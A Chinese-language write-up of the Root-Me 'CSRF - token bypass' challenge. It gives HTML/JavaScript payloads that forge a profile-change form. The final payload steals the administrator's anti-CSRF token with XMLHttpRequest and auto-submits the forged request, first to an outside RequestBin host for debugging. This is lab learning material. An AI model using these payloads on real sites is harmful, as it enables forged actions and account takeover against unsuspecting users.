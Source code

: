 Root-Me [CSRF - token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)
===

該題跟 CSRF - 0 protection 幾乎一樣，但是在 `Profile` 的部分有加上 Token 驗證。

## 解題關鍵
1. JavaScript

## 解題方法
該題的題目名稱應該很清楚了，就是要 bypass Token，簡單來說有三個想法，如下。
1. 嘗試直接使用之前的 Payload，遇過實際案例，頁面上有提供 Token，但實際上拿掉 Token 就繞過了...。
2. 嘗試加上使用者端的 Token，Token 沒有驗證來源，只要是資料庫上有啟用的 Token 都給過。
3. 透過惡意的 JavaScript 腳本，讓管理員請求附帶管理員的 Token。

看似第三種方式是比較穩健的，但還是直接嘗試把 Token 加上之前的 Payload 送出試試看吧。  
```HTML
<form name="attack" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="post" enctype="multipart/form-data">
    <input id="token" type="hidden" name="token" value="d6bec364b1022175fd42a06f16a8a44d">
	<div class="form-group">
		<label>Username:</label>
		<input type="text" name="username" value="MksYi">
	</div>
		<br>		
	<div class="form-group">
		<label>Status:</label>
		<input type="text" name="status" value="on">
	</div>
		<br>	
	<button type="submit">Submit</button>
</form>
<script>document.getElementsByName("attack").submit()</script>
```

顯然沒有這麼簡單，不論 Token 是戴上使用者的，還是將 Token 直接拿掉都無法直接拿到 Flag，看樣子只剩下第三種方式，至於要如何拿到管理員的 Token 呢? 這就要得要有 JavaScript 基礎了，透過 `XMLhttpRequest` 來偷 Token，並把值存到請求的 input 上，就成功偽造一個惡意請求了，如下，該 Payload 與以上的瘦小許多，是因為我把 HTML 多餘，且不必要的標籤移除了，然後將 POST 的目標轉移到 `Requestsbin` 上，以便 Debug。

```HTML
<form name="attack" action="http://requestbin.fullcontact.com/12qlilf1/?action=profile" method="post" enctype="multipart/form-data">
    <input name="username" value="MksYi">
    <input name="status" value="on">
    <input id="token" type="hidden" name="token" value="">
</form>
<script>
    var r = new XMLHttpRequest();
	r.open("GET", "http://challenge01.root-me.org/web-client/ch23/index.php?action=profile", false);
	r.send(null);
	var respone = r.responseText;
	var groups = respone.match("token\" value=\"(.*?)\"");
	var get_token = groups[1];
	
    document.getElementById("token").value = get_token;
    document.attack.submit();
</script>
```

這邊遇到了一個問題，原先使用的 `Payload` 在 `Submit` 的部分為 `document.getElementsByName("attack")`，但一直不運作，最後發現可以直接使用 `document.attack.submit()` 這樣的方法，最後也確認終於有收到參數。

![](img/01.png)

該地方讓我卡很久是在 JavaScript 的語法 `getElementById` 中的 `Element` 並沒有 `s` ...。

最後 `Payload` 只要將 `form` 的 `action` 改為 `Profile` 的網址即可，解決該題。

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)